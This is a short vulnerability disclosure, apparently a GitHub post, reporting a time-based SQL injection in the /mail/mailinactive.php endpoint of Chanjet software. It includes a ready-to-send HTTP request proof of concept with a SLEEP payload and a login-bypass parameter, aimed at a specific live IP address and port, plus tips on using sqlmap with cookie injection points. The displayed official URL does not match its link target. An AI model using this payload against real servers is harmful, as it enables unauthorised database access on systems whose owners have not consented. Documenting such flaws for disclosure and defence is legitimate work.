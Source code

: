 Changjietong Information Technology Co., Ltd. has SQL injection, which attackers can exploit to obtain information.

official：[https://www.kehua.com.cn/](https://www.chanjet.com/)

version:1.0

 Vulnerability Path  ： /mail/mailinactive.php

See the login page.

poc：
```
GET /mail/mailinactive.php?name=1&gblOrgID=1+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))a)--+-&DontCheckLogin=1 HTTP/1.1
Host: 49.4.122.252:8090
Connection: close
```

Ip：http://49.4.122.252:8090
SQL map confirms a vulnerability, which is quite special. It cannot run SQL map with cookies. Use my POC-R and do not use SQL map. Custom cookies should be marked with an * injection point
![Uploading image.png…]()
